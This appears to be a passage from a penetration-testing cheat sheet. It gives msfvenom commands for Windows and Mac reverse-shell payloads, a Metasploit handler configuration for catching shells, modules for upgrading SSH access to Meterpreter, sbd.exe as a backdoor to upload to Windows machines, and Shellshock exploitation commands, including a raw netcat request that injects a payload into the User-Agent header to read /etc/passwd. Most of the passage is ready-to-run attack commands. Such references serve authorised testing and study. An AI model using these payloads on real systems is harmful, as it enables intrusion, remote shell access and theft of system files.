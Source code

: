     _Windows Based Shellcode_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

    _Mac Based Shellcode_

    `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

    **Handlers** Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z

    Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

*   SSH to Meterpreter: [https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/](http://web.archive.org/web/20171113221652/https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/)

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

*   SBD.exe

    sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32\. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only. sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.

*   Shellshock

    *   Testing for shell shock with NMap

    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

    *   git clone [https://github.com/nccgroup/shocker](http://web.archive.org/web/20171113221652/https://github.com/nccgroup/shocker)

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

    *   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh

              ssh -vvv  
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

    *   cat file (view file contents)

              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

